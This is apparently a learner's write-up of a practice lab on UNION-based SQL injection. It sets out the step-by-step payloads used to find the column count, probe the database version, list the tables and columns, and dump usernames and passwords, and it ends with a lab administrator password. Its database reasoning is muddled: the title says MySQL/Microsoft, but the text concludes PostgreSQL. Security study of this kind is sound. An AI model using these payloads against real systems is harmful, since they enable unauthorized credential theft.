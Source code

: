 # Lab 04 – SQLi: Querying DB type & version (MySQL & Microsoft)

Goal:
figure out the database type/version when the backend is MySQL or Microsoft SQL.

What I did: 
- first i tested if its vulnerable to SQL injection by just typing ' in category
- intercepted the request that sets the product category filter in Burp & sent it to repeater 
- determine the number of columns using order by clause, confirmed it was returning 2 columns

here’s the screenshot showing the number of columns test worked:
![Number of columns result](../images/sqli/04-db-version-mysql-mssql/numberofcol.png)

- find the data type for the columns by using: UNIION SELECT NULL, NULL --
  i tested UNION SELECT 'a', 'b' -- and it gave 200 OK = both colums accept type string
  
- figure out the database version since we dont know the database software we are gonna depend on which one gives us 200 OK
1- ' UNION SELECT @@version, NULL -- 500 internel server error -> not microsoft
2- ' UNION SELECT version(), NULL -- 200 OK -> so now we know its PostgreSQL (PostgreSQL 12.22 (Ubuntu 12.22-0ubuntu0.20.04.4))
  
- output the table names in the database
' UNION SELECT table_name, NULL FROM information_schema.tables --

users_dbqlkm

- output the column names of the table 
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_dbqlkm' --

username_qbetwu
password_vbkewi

- output the usernames and passwords
' UNION SELECT username_qbetwu, password_vbkewi FROM users_dbqlkm--

- now we can see administrator and password: o00ap5pgao7vp0cq3ku1 and thats it !

Notes:
this one felt smoother because I understood the UNION flow better after Lab 03.
